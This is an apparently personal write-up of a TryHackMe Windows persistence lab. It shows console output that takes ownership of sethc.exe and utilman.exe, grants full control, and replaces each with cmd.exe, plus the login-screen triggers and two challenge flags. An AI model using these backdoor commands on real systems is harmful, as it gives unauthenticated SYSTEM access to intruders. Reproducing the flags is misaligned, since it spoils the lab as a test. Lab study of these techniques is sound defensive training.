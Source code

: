 ```
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".

C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.

locked then shift 5 times


```
![[Pasted image 20220911172233.png]]

![[Pasted image 20220911172243.png]]


Insert flag14 here
*THM{BREAKING_THROUGH_LOGIN}*

```
C:\Users\Administrator>takeown /f c:\Windows\System32\utilman.exe                                                                                                                                                                               SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "WPERSISTENCE\Administrator".                                                                                                                                C:\Users\Administrator>icacls C:\Windows\System32\utilman.exe /grant Administrator:F                                    processed file: C:\Windows\System32\utilman.exe                                                                         Successfully processed 1 files; Failed processing 0 files                                                                                                                                                                                       C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe                                 Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes                                                                    1 file(s) copied.   

lock then ease access 


```

![[Pasted image 20220911172530.png]]

![[Pasted image 20220911172546.png]]

Insert flag15 here
*THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}*

